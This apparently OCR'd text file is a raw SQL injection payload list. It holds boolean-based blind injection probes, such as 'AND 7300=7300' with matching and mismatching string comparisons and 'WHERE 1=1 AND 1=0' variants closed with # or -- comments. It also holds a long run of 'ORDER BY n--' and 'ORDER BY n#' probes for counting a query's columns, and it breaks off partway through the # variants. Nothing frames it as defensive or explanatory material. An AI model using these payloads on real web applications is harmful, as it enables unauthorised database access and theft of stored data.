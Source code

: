  AND 7300=7300 AND 'pKlZ'='pKlY
 AND 7300=7300 AND ('pKlZ'='pKlZ
 AND 7300=7300 AND ('pKlZ'='pKlY
 AS INJECTX WHERE 1=1 AND 1=1
 AS INJECTX WHERE 1=1 AND 1=0
 AS INJECTX WHERE 1=1 AND 1=1#
 AS INJECTX WHERE 1=1 AND 1=0#
 AS INJECTX WHERE 1=1 AND 1=1--
 AS INJECTX WHERE 1=1 AND 1=0--
 WHERE 1=1 AND 1=1
 WHERE 1=1 AND 1=0
 WHERE 1=1 AND 1=1#
 WHERE 1=1 AND 1=0#
 WHERE 1=1 AND 1=1--
 WHERE 1=1 AND 1=0--
 ORDER BY 1-- 
 ORDER BY 2-- 
 ORDER BY 3-- 
 ORDER BY 4-- 
 ORDER BY 5-- 
 ORDER BY 6-- 
 ORDER BY 7-- 
 ORDER BY 8-- 
 ORDER BY 9-- 
 ORDER BY 10-- 
 ORDER BY 11-- 
 ORDER BY 12-- 
 ORDER BY 13-- 
 ORDER BY 14-- 
 ORDER BY 15-- 
 ORDER BY 16-- 
 ORDER BY 17-- 
 ORDER BY 18-- 
 ORDER BY 19-- 
 ORDER BY 20-- 
 ORDER BY 21-- 
 ORDER BY 22-- 
 ORDER BY 23-- 
 ORDER BY 24-- 
 ORDER BY 25-- 
 ORDER BY 26-- 
 ORDER BY 27-- 
 ORDER BY 28-- 
 ORDER BY 29-- 
 ORDER BY 30-- 
 ORDER BY 31337-- 
 ORDER BY 1# 
 ORDER BY 2# 
 ORDER BY 3# 
 ORDER BY 4# 
 ORDER BY 5# 
 ORDER BY 6# 
 ORDER BY 7# 
 ORDER BY 8# 
 ORDER BY 9# 
 ORDER BY 10# 
 ORDER BY 11# 
 ORDER BY 12# 
 ORDER BY 13# 
 ORDER BY 14# 
 ORDER BY 15# 
 ORDER BY 16# 
 ORDER BY 17# 
 ORDER BY 18# 